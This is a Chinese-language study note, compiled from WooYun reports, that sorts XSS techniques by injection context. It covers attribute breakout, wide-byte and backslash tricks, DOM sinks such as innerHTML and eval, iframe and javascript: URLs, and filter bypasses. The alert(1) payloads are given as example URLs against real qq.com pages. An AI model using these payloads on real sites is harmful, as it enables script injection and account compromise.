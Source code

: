 #XSS 分类

#### 整理自乌云

- 什么都没过滤的情况
- 输出在`<script><script/>`之间的

    `new Image().src="..."` 或者 `<script>alert(1)</script>`

- 输出在html里的

    `http://xxx.com/search?word=hehe`

    ```html
    <input type="text" value="hehe">
    ```

    修改为 `http://xxx.com/search?word=hehe" onclick="alert(1)`

    则变成
    ```html
    <input type="text" value="hehe" onclick="alert(1)">
    ```

- 宽字节注入

    URL 编码简介
    
    | sp  | "   |  '  |  ,  |  ;  |  <  |  >  |  ?  |  [  |
    | --- | --- | --- | --- | --- | --- | --- | --- | --- |
    | %20 | %22 | %27 | %2C | %3B | %3C | %3E | %3F | %5B |


    |  ]  |  {  |  o  |  }  | 
    | --- | --- | --- | --- |
    | %5D | %7B | %7C | %7D |

    | newline |    [   |    ]   |  &#124; |
    | ------- | ------ | ------ | ------- |
    |  space  | \&#91; | \&#93; | \&#124; |

    
    `http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%22;alert(1);//aaaaaa`
    中 `%22` 代表 `"`, 但是最后被过滤为 `&quot;`：
    ```js
    var gsTest = "&quot;;alert(1);//aaaaaa";
    ```
    预想效果:
    ```js
    var gsTest = "";alert(1);//aaaaaa";
    ```

    当html为gbxxxx系列编码时，改为如下:
    
    `http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0%22;alert(1);//aaaaaa`
    
    效果： 
    ```js
    var gsTest= "宽";alert(1);//aaaaaa
    ```
    我试了在console里试了` decodeURI('%C0%5C') `等各种组合还是不明白真相...

    作者解释：至于这个漏洞的成因，和传统的宽字节漏洞并不一样。目测应该是由于过滤双引号的正则表达式写得有问题造成的。
    并不是因为%22变成了 %5c%22,而 %c0吃掉了后面的%5c （怎么吃的啊T^T）

- 反斜杠

    ```js
    location.href="........."+"&ss=aaaa"+"&from=bbb"+"&param=";//comment
    ```
    可以用反斜杠 `\` 杀死 `"`，改成
    ```js
    location.href="........."+"&ss=aaaa\"+"&from=1//"+"&param=";
    ```
    问题： "字符串"&from=1，这样是错误的，因为&符号的优先级高， ("字符串"&from)=1 是无法进行这种赋值操作，继续修改 
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1//"+"&param=";
    ```
    问题： from未定义，加一个函数定义（js会先解析定义），继续修改
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1;function from(){}//"+"&param=";
    ```
    问题： 空格被转义为了 `&nbsp;`， /**/替换空格，继续修改 
    ```js
    location.href="........."+"&ss=aaaa\"+"&from==1;alert(1);function/**/from(){}//"+"&param=";
    ```

- 换行符

    ` %0a ` 代表html中的换行，达到如下效果：
    ```js
    //我是注释，我爱洗澡，哦～哦～哦～ [我是输出]
    ```
    变成
    ```js
    //我是注释，我爱洗澡，哦～哦～哦～ [我是输出  换行符
    alert(1);//我是输出]
    ```

- DOM XSS 显示输出
    ```js
    document.getElementById('test').innerHTML = "<img src=1>";
    document.write('....');
    $('.class-name').html('...');
    ```
    `innerHTML = <script>alert(1)</script>`无法触发，只能用`<img>`
    JS的字符串中的字符可以写为 unicode编码。
    如： `<` 可以表示为 `\u003c` , `>` 可以表示为 `\u003e`
    ```js
    document.getElementById("a").innerHTML="\u003cimg src=1\u003e";
    ```
    在JS字符串里， < 不光可以写为 \u003c，还可以写为 \x3c， > 同样可以写为 \x3e, 是16进制编码

- DOM XSS 隐式输出
    ```html
    <object><param name="movie" value="aaaaa">
    ```
    `http://qt.qq.com/video/play_video.htm?sid=aaaaaa"></object><img src="1" onerror="alert(1)`

    通过隐式闭合标签进行注入，插入诸如`<img>`标签
    ```html
    <object><param name="movie" value="aaaaa"></object><img src="1" onerror="alert(1)">
    ```
    
    由于chrome已经过滤了`< >`两个符号，所以js代码过滤的是encode后的字符，相当于没过滤
    `decodeURIComponent` 的操作，会将 `%3c`, `%3e`，又变回 `<`, `>`
    
    也可以构造URL如 `http://qt.qq.com/video/play_video.htm?sid=aaaaaa%22%3E%3C/object%3E%3Cimg%20src=1%20onerror=alert(1)%3E` 以达到目的

- DOM XSS eval函数

    先看这个url: `http://kf.qq.com/search_app.shtml?key=aaaaa`
    通过在url后面加非法字符 `\` 构造 `http://http://kf.qq.com/search_app.shtml?key=aaaaa\`
    然后从控制台定位到错误代码，发现下面这段js
    ```js
    var getarg = function() {
        var url = window.location.href;
        var allargs = url.split("?")[1]; // 获得key=aaaa
        if (allargs!=null && allargs.indexOf("=")>0) {
            var args = allargs.split("&"); // 多arguments情况
            for(var i=0; i<args.length; i++) {
                var arg = args[i].split("=");
                eval('this.'+arg[0]+'="'+arg[1]+'";'); // 直接用了this调用key
                // 然后可以在页面里执行
            }
        }
    };
    ```
    通过加分号断句，让自己的xss执行，那么可以把`this.key="aaaaa";` 变成 `this.key;alert(1);//="asdas"`
    让 `arg[0]` 变成 `key;alert(1);//`，把后面的用注释断句
    构造url: `http://kf.qq.com/search_app.shtml?key;alert(1);//=aaaaa`

    chrome中 `"` 会变成 `%22` 而失效

- DOM XSS iframe

    有时候，输出还会出现在 <iframe src="[输出]"></iframe> 。
    iframe 的 src属性本来应该是一个网址，但是iframe之善变，使得它同样可以执行javascript，
    而且可以用不同的姿势来执行。这一类问题，我将其归为[路径可控]问题。
    当然上面说到的是普通的反射型XSS。有时候程序员会使用javascript来动态的改变iframe的src属性，譬如：iframeA.src="[可控的url]"; 同样会导致XSS问题

    - onload执行js
    ```html
    <iframe onload="alert(1)"></iframe>
    ```
    - src执行js
    ```html
    <iframe src="javascript:alert(1)"></iframe>
    ```
    - chrome下data协议执行代码
    ```html
    <iframe src="data:text/html,<script>alert(1)</script>"></iframe>
    ```
    - chrome下srcdoc属性，变体
    ```html
    <iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
    ```
- DOM XSS 路径

    一些程序员会动态的加载json数据，同域的时候，可以使用ajax；而有时候，数据所在域和当前页面所在域又不一致。所以需要跨域请求。跨域请求数据的手段中，有一种叫做jsonp。

    用代码表示的话，就是
    `somescript.src="http://otherdomain.com/xx?jsonp=callback"`

    某些时候，程序员会在调用外部数据的时候带上可控的参数。

    `somescript.src="http://otherdomain.com/xx?jsonp=callback&id="+id;`

    如果这个id我们可控，将可能带来XSS问题

    1. `script src="完全可控"` ,这种就简单了，直接将地址换为我们的JS地址
    2. `script src="/path/xxx/[路径可控]/1.js"`

- XSS 过滤器绕过
    
    `<img src=1 onerror=alert(1)>` 被和谐为 `<img src=1 onerror>`
    改为 `<script src=data:,alert(1)<!--`

- 存储型 XSS

    可以套现的各种XSS技巧，HTML标签
    [HTML5 Security Cheatsheet](http://html5sec.org/)